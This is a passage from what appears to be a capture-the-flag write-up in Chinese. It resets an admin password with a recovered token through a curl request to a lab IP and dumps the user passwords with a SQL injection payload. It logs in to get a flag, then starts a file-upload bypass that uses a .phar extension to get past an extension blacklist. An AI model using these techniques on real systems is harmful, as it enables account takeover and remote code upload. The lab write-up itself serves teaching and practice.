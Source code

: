 ```shell
90vwelDSu
90vwelDSua
90vwelDSuac
90vwelDSuacG
90vwelDSuacG7
90vwelDSuacG7I
90vwelDSuacG7Ix
90vwelDSuacG7Ix,

# ToKen:`90vwelDSuacG7Ix`
```
```bash
$ curl -XPOST -d "token=90vwelDSuacG7Ix&password=newpass" http://172.16.1.65/login/doChangePassword.php
# Ok 密码重置成功

# 再次使用脚本查看密码
pay = "select group_concat(password) from user"
exp(pay)


# 结果：
# e6053eb8d35e02ae40beeeacef203c1a,unaccessable_until_you_change_me


$# echo -n "newpass" |openssl md5
(stdin)= e6053eb8d35e02ae40beeeacef203c1a

# 结果意料之中

```

密码重置成功

`admin`:`newpass`

进行后台登录，在后台管理页面得到`FLAG1`

```shell
FLAG1: 0410e2bd77f66dc9a567ab00aa29599cd 
```


### upload-php-file
> 上传点
> 进入后台->item->顺便编辑一个

上传文件黑名单

`"php", "phtml", "shtml", "cgi", "pl", "php3", "php4", "php5", "php6"`

我们使用`.phar`后缀进行上传

POST 上传数据
> 如果需要复制使用，需要你修改`Cookie`和`HOST`
